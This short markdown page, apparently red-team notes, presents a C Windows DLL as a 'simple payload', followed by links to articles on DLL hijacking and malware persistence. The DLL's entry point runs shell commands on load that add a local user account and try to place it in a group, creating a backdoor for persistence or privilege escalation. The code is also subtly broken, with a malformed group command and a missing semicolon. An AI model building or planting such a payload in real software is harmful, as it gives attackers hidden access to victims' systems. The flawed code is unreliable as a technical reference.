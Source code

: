# Simple Payload

## 01 - C

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason,
    LPVOID lpReserved) {
    switch(fdwReason) { 
        case DLL_PROCESS_ATTACH:
         system("cmd /c net user <username> <password> /add /y & net user localgroup \"<group_name>\" \"<username>\" /add /y")
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;  
}
```

---
## References

### TBHaxor

- [TBHaxor: Loading DLLs Using CPP in Windows](https://tbhaxor.com/loading-dlls-using-cpp-in-windows/)

### Cocomelonc

- [Cocomelonc: Malware Persistence Part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)

### Elliot on Security

- [Elliot on Security: Perfect DLL Hijacking](https://elliotonsecurity.com/perfect-dll-hijacking/)

### DMCXBlue

- [DMCXBlue: DLL Search Order Hijacking](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1574-hijack-execution-flow/dll-search-order-hijacking)